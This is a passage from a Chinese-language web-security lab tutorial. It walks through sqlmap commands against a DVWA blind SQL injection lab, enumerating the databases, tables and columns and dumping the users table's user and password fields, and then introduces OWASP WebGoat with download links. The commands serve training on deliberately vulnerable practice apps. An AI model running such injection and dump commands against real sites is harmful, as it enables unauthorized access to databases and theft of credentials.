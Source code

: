 ``````
py3 sqlmap.py -u "http://192.168.123.20/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low" --current-db
```

![1559655198515](assets/1559655198515.png)

##### 查看当前用户

```
py3 sqlmap.py -u "http://192.168.123.20/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low" --current-user
```

![1559655403932](assets/1559655403932.png)

##### 查看全部数据库

```
py3 sqlmap.py -u "http://192.168.123.20/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low" --dbs
```

![1559655486452](assets/1559655486452.png)

##### 查看数据库全部表
```
py3 sqlmap.py -u "http://192.168.123.20/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low" -D dvwa --tables
```

![1559655542253](assets/1559655542253.png)

##### 查看表字段

```
py3 sqlmap.py -u "http://192.168.123.20/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low" -D dvwa -T users --columns
```

![1559655623753](assets/1559655623753.png)

##### 查看数据

```
py3 sqlmap.py -u "http://192.168.123.20/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low" -D dvwa -T users -C user,password --dump
```

![1559655752250](assets/1559655752250.png)



## 1x10 WebGoat

### 1x11 WebGoat 简介

WebGoat是OWASP组织研制出的用于进行web漏洞实验的Java靶场程序，用来说明web应用中存在的安全漏洞。WebGoat运行在带有java虚拟机的平台之上，当前提供的训练课程有30多个，其中包括：跨站点脚本攻击（XSS）、访问控制、线程安全、操作隐藏字段、操纵参数、弱会话cookie、SQL盲注、数字型SQL注入、字符串型SQL注入、web服务、Open Authentication失效、危险的HTML注释等等。

### 1x12 WebGoat安装

```
https://github.com/WebGoat/WebGoat/releases/download/v8.0.0.M25/webgoat-server-8.0.0.M25.jar
https://github.com/WebGoat/WebGoat/releases/download/v8.0.0.M25/webwolf-8.0.0.M25.jar
``````